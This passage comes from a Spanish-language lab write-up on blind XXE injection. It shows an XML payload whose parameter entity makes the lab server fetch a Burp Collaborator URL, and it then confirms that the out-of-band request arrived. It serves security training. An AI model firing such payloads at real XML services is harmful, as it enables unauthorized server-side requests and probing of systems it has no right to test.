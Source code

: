 Damos en **"CopyToclipboard"**, y obtendremos una URL similar a esta:**"a8jfnmr2ktwurmko35ehkcp5vw1mpb.burpcollaborator.net"**, esta URL es nuestro servidor tercero temporal creado por burpcollaborator, ahora declararemos una entidad, la cual contendrá una llamada a esta URL, y después llamamos a dicha entidad para que nos haga la petición:

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://a8jfnmr2ktwurmko35ehkcp5vw1mpb.burpcollaborator.net"> %xxe;]>
	<stockCheck>
		<productId>
			9
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

![res](/assets/images/LabsXXE/lab4/response.png)

> Recuerda que los porcentajes se usan para declarar y llamar desde el DTD.

Y al tramitar esta petición podemos observar que nos muestra otro mensaje que dice **"XML parsing error"**, pero no le tomaremos importancia, ahora iremos al burpcollaborator y daremos en el botón de **pollNow**, y veremos que nos ha llegado nuestra petición HTTP desde el servidor del laboratorio:
